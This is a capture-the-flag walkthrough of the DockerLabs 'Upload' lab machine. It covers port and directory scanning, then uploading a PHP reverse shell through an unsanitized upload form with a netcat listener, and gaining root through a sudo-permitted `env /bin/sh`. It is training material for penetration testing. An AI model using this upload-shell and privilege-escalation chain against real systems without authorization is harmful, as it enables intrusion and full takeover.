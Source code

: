 # Upload

{% embed url="https://dockerlabs.es/#/" %}

[🔗 DockerLabs.es](https://dockerlabs.es/#/)

&#x20;[🔗](https://dockerlabs.es/#/) [How to setup a Docker Image ](https://dockerlabs.es/assets/instrucciones\_de\_uso.pdf)

<details>

<summary>CTF BootToRoot</summary>

A **CTF** (Capture The Flag) **Boot To Root** (B2R) is a type of cybersecurity challenge where participants are tasked with gaining unauthorized access to a computer system (the "Boot" part) and then obtaining and eventually capturing a specific flag or set of flags (the "Root" part). The flags could be strings of text, files, or other data that prove the participant has successfully compromised the system.

In these challenges, participants typically start with minimal information about the target system and have to use various techniques, including vulnerability analysis, exploitation, privilege escalation, and more, to gain access and ultimately root access to the system. The challenges often simulate real-world scenarios and are designed to test participants' skills in penetration testing, exploit development, reverse engineering, and other cybersecurity domains. They can be hosted online or in-person as part of cybersecurity competitions, training events, or educational exercises.

</details>

## Task 1 - Deploy the machine

Install docker.io (if you do not already have it installed) -> `sudo apt install docker.io`

Download machine from DockerLabs website and setup lab:

* `unzip trust.zip`
* `sudo bash auto_deploy.sh upload.tar`

and we obtained IP machine -> 🎯 Target IP: `172.17.0.2`

We can put the IP in the file to associate it with an easier to remember name:

<pre class="language-bash"><code class="lang-bash">su
<strong>echo "172.17.0.2 upload" >> /etc/hosts
</strong></code></pre>

Create a directory for machine on a dedicated folder and subdir containing: nmap,content,exploits,scripts

<pre class="language-bash"><code class="lang-bash"><strong>mkdir -p DockerLabs/trust
</strong>cd DockerLabs/trust
<strong>mkdir {nmap,content,exploits,scripts}
</strong><strong>
</strong># At the end of the Lab
CTRL + C #To stop running machine

<strong>sed -i '$ d' /etc/hosts # To clean up the last line from the /etc/hosts file
</strong><strong>
</strong># To repair potential problem during activities
sudo systemctl restart docker
sudo docker stop $(docker ps -q)
sudo docker container prune -force
</code></pre>

## Task 2 - Reconnaissance and Exploitation

I prefer to start recon by pinging the target, this allows us to check connectivity and get OS info.

```bash
ping -c 3 upload
PING upload (172.17.0.2) 56(84) bytes of data.
64 bytes from upload (172.17.0.2): icmp_seq=1 ttl=64 time=0.068 ms
64 bytes from upload (172.17.0.2): icmp_seq=2 ttl=64 time=0.080 ms
64 bytes from upload (172.17.0.2): icmp_seq=3 ttl=64 time=0.066 ms
```

Sending these three ICMP packets, we see that the Time To Live (TTL) is \~64 secs. this indicates that the target is a \*nix system, while Windows systems usually have a TTL of 128 secs.

### 2.1 Ports in listening and relative services

Of course, we start looking for information about our target by scanning the open ports with the nmap tool

```bash
nmap -Pn -n -p0- upload
```

```bash
PORT   STATE SERVICE
80/tcp open  http
```

There's only one open port (80), analyze it searching more info about service version and potential vulns:

```bash
nmap -A -sVC -p 80 upload -oN nmap/port_scan
```

```bash
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Upload here your file
|_http-server-header: Apache/2.4.52 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 2.6.32 (96%), Linux 3.2 - 4.9 (96%), Linux 4.15 - 5.8 (96%), Linux 2.6.32 - 3.10 (96%), Linux 5.0 - 5.5 (96%), Linux 3.4 - 3.10 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (95%), Synology DiskStation Manager 5.2-5644 (94%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 1 hop
```

<table><thead><tr><th width="154.99999999999997">command</th><th>result</th></tr></thead><tbody><tr><td>sC</td><td>run default scripts</td></tr><tr><td>sV</td><td>enumerate versions</td></tr><tr><td>A</td><td>aggressive mode</td></tr><tr><td>Pn</td><td>no ping</td></tr><tr><td>oN</td><td>output to file with nmap formatting</td></tr></tbody></table>

Focusing on port 80 we have a web server so by running the whatweb command we extract more information and then display the content via the browser

```bash
whatweb http://upload
```

<figure><img src="../.gitbook/assets/image (265).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (266).png" alt=""><figcaption></figcaption></figure>

Let's display the default Apache page, try analysing the source page with CTRL+U

<div align="left">

<figure><img src="../.gitbook/assets/image (279).png" alt=""><figcaption></figcaption></figure>

</div>

But we don't discover nothing of interisting.

### 2.2 Brute force hidden web directory

Now, we try to find potential hidden directory using gobuster:

```bash
gobuster dir -u http://upload -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
```

<figure><img src="../.gitbook/assets/image (268).png" alt=""><figcaption></figcaption></figure>

We find a 301 status code (redirect), that contains file uploaded using form of index page.

<figure><img src="../.gitbook/assets/image (270).png" alt=""><figcaption></figcaption></figure>

### 2.3 Upload shell

Trying to upload php file I notice that there is no trace of sanitization, so we have a clear path and we can use a backdoor or a reverse shell in php. In my case I opt for a reverse shell, specifically I use the one present on Kali usually at the path: /usr/share/webshells/php/php-reverse-shell.php

I copy it, assign it execution permissions and modify it by inserting my local IP (kali) and port where we will listen with netcat

```bash
cp /usr/share/webshells/php/php-reverse-shell.php .
chmod +x php-reverse-shell.php
code php-reverse-shell.php
```

<div align="left">

<figure><img src="../.gitbook/assets/image (274).png" alt=""><figcaption></figcaption></figure>

</div>

<div align="left">

<figure><img src="../.gitbook/assets/image (275).png" alt=""><figcaption></figcaption></figure>

</div>

Well, now we have the exploit ready, we load it using the form in the index page

<figure><img src="../.gitbook/assets/image (276).png" alt=""><figcaption></figcaption></figure>

We listen with netcat on the set port '1234': `nc -nvlp 1234` and click on the php-reverse-shell.php file to establish a connection on our machine

<div align="left">

<figure><img src="../.gitbook/assets/image (277).png" alt=""><figcaption></figcaption></figure>

</div>

<figure><img src="../.gitbook/assets/image (278).png" alt=""><figcaption></figcaption></figure>

## Task 3 - Privilege Escalation

Now that we are inside, since we are not root user we need to elevate our privileges, so let's check the current permissions using `sudo -l`

<figure><img src="../.gitbook/assets/image (273).png" alt=""><figcaption></figcaption></figure>

We see that mario user has root permissions for /usr/bin/env, then we can use [gtfobins](https://gtfobins.github.io/gtfobins/env/) to find it.

{% embed url="https://gtfobins.github.io/gtfobins/env/" %}

<figure><img src="../.gitbook/assets/image (271).png" alt=""><figcaption></figcaption></figure>

using vim sudo command, we obtain a root permission `sudo env /bin/sh`

<div align="left">

<figure><img src="../.gitbook/assets/image (272).png" alt=""><figcaption></figcaption></figure>

</div>
